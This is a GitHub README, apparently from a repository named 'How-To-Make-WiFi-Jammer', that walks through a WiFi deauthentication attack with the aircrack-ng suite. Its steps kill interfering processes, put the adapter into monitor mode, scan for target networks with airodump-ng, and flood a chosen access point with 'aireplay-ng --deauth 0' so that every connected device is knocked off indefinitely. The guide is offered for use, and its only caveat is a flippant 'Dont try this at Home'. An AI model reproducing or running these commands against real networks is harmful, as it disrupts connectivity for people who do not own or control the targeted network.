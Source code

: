 
<h1 align="center">Welcome to Repositorie of WiFi Jammer 👋</h1>
<p>
<img src="https://img.shields.io/badge/version-0.1-blue.svg?cacheSeconds=2592000" />
</p>
<img src="https://raw.githubusercontent.com/AnandKatariya/Kali-Linux-Jupyter-Notebook-Installation/a9eea7518be7dadfdc60ac934d98e59735590209/Image/made-with-kali-linux.svg" >


### 🏠 [Homepage](https://github.com/AnandKatariya?tab=repositories)
<p align =center >
  <img src="https://thumbs.gfycat.com/EvergreenPolishedBunny-max-1mb.gif" height='246' width='250' />
</p>

<h1 align="center">Dont try this at Home, School,Or any other public place!!!</h1>
<br>

<h1 align="center"> Introduction to WiFi Jammer </h1>
<p>
 
## Check
```sh
iwconfig
```
Check weather the mode is on moniter mode or managed mode.

  ## Clear all stuff

```sh
airmon-ng check kill
```
check and kill off processes that might interfere with the aircrack-ng suite.

  ## Moniter mode

```sh
airmon-ng start wlan0
```
Airmon-ng is used to read all the packets of data even if they are not sent to us. It controls the traffic received only on the wired/wireless networks. Wi-Fi adapters are mainly used for connecting your device to the internet. Most laptops, tablets, and mobile phones have an inbuild Wi-Fi card.

  ## Search the target

```sh
airodump-ng wlan0mon
```
After doing this you will able to see a interface that will show you wifi network around you which are available and with this you will able to see many other columns such as CH (channel), bssid and many more.

  ## Jamming The WiFi

```sh
aireplay-ng --deauth 0 -a <target_mac> wlan0mon
```
After doing this all the device which are connected to this WiFi will be disconnect cause this process will send deauthentication packges and due to this the WiFi we be get stuck and it will not able to connect any other device and this process will cause WiFi Jamming.

 ## Author

👤 **Anand Katariya**

* Github: [@AnandKatariya](https://github.com/AnandKatariya)
 
## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/AnandKatariya/How-To-Make-WiFi-Jammer/issues).
